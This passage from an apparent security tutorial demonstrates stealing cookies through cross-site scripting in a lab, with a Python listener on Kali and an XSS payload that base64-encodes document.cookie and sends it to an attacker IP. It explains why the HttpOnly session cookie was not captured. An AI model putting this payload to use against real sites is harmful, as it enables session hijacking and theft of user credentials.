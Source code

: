 So if we set up a web server in our Kali through the command

{% include codeHeader.html %}
```console
python3 -m http.server 80
```

like in the following screenshot

![](/assets/images/2022-11-12-bypass-httponly-via-php-info-page/python-web-server.png)

and we write the payload

{% include codeHeader.html %}
```html
<script>var i=new Image;i.src="http://192.168.240.129/"+btoa(document.cookie);</script>
```

and we click *Submit*, we can see that a GET request has been printed in the web server, like in the following screenshot

![](/assets/images/2022-11-12-bypass-httponly-via-php-info-page/user-cookies-exfiltrated-1.png)

The path of the GET request is the *base64* encoded form of the user cookies, so decoding it with the burpsuite decoder we can get the user cookies

![](/assets/images/2022-11-12-bypass-httponly-via-php-info-page/user-cookies-exfiltrated-decoded-1.png)

As you can see, only the *security* cookie is displayed and not the *PHPSESSID* cookie. That's because the *HttpOnly* flag of the *PHPSESSID* cookie.

<div id='section-id-2-2'/>
## 2.2. Exfiltrating the cookies bypassing the HttpOnly flag through the PHP info page
